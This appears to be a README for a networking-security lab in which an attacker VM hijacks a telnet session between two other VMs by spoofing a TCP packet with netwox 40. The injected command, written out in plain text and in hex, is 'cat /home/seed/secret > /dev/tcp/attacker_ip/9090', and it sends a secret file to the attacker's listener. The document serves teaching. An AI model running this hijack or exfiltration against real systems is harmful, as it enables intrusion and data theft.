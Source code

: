 ## TCP Session Hijacking Attack

### Requirements 

In this lab, we will hijack a telnet session (between the victim client and the victim server) and inject a malicious command. In particular, the attacker wants to see the content of a secret file (stored on the server). At the end of this lab, if the attack is successful, the content of this secret file will be displayed in the attacker's terminal window.

### Setup

3 Linux VMs. VM1 as the victim (telnet client); VM2 as the telnet server; VM3 as the attacker. The 3 VMs reside in the same network.

### Steps

1. let the client connect to the server using telnet.

![alt text](lab-tcp-hijack-telnet.png "Lab tcp session hijacking telnet")

2. the client creates a secret file on the server.

![alt text](lab-tcp-hijack-cat.png "Lab tcp session hijacking cat")

3. let the attacker start monitoring network traffic using wireshark.

![alt text](lab-tcp-hijack-capture.png "Lab tcp hijack capture")

4. client produces some telnet packets. (any telnet packets, you can just type a command like *ls*).

![alt text](lab-tcp-hijack-ls.png "Lab tcp hijack ls command")

5. attacker stops wireshark capturing, and navigates to the latest packet sent from the client to the server.

This image shows the ip addresses, port numbers, sequence number, acknowledgment number.
![alt text](lab-tcp-hijack-capture1.png "Lab tcp hijack latest tcp capture - part 1")

This image shows the window size - still the same packet.
![alt text](lab-tcp-hijack-capture2.png "Lab tcp hijack latest tcp capture - part 2")

This image shows the ttl attribute - still the same packet.
![alt text](lab-tcp-hijack-capture3.png "Lab tcp hijack latest tcp capture - part 3")

6. the above packet provides the information which the attacker needs to know in order to perform the tcp session hijacking attack. now, the attacker, mimicking the **client**, needs to use the *netwox 40* command to inject a telnet command. The netwox command should be in this format: # sudo netwox 40 --ip4-src *source_ip* --ip4-dst *destination_ip* --tcp-src *source_port* --tcp-dst *destination_port* --tcp-seqnum *sequence_number* --ip4-ttl *ttl_value* --tcp-window *window_size* --tcp-ack --tcp-acknum *acknowledgment_number* --tcp-data "putyourdatahere,in hex format". Remember to replace these italic texts with information captured in wireshark. To run the command, the attacker opens a terminal window, types the *netwox 40* command, and press enter.

**Note**: because the attacker is mimicking the client, thus the source ip address needs to be the client's IP address; from the captured latest packet, we can see the sequence number is *2523450797*, the acknowledgment number is *311613137*; the source port (in this example) is 57502, the destination port is 23. the tcp window size (in this example) is 245, the time to live (ttl) value is 64. The tcp data we can use is: "0d20636174202f686f6d652f736565642f736563726574203e202f6465762f7463702f61747461636b65725f69702f39303930200d".

**Explanation**: why the tcp data is "0d20636174202f686f6d652f736565642f736563726574203e202f6465762f7463702f61747461636b65725f69702f39303930200d"? Because the telnet command we want to inject is: "cat /home/seed/secret > /dev/tcp/attacker_ip/9090", and we want this command to be sandwiched by two newline signs "\r", so that the command will not be concatenated with other random strings. assume the atacker's IP address is 172.16.77.130, then this is how we can convert this whole thing into hex:

![alt text](lab-tcp-hijack-command-to-hex.png "Lab tcp hijack - the tcp data")

Thus in this example, the netwox 40 command we are going to type is:
![alt text](lab-tcp-hijack-command.png "Lab tcp hijack - the netwox command")

**Explanation 2**: why the telnet command we want to inject is "cat /home/seed/secret > /dev/tcp/attacker_ip/9090". Because "cat /home/seed/secret" shows the content of the secret file, but this command will only display the content in the victim client's terminal window, not in the attacker's terminal window. This "cat /home/seed/secret > /dev/tcp/attacker_ip/9090" will redirect the output of the cat command into a tcp port 9090 at the attacker's ip address. Thus we come to our next step,

7. before pressing enter, the attacker needs to open another terminal window so that the attacker can listen on a port - we will choose port 9090.

![alt text](lab-tcp-hijack-listening.png "Lab tcp hijacking attack listening on port 9090")

- after pressing enter:
![alt text](lab-tcp-hijack-after-enter.png "Lab tcp hijacking attack after enter command")

7. once the attacker pressed enter to execute the above *netwox 40* command, if the attack is successful, the victim server's secret file will be displayed in the attacker's terminal window:

![alt text](lab-tcp-hijack-success.png "Lab tcp session hijacking attack successful")

This indicates that the attack is successful and concludes the lab.

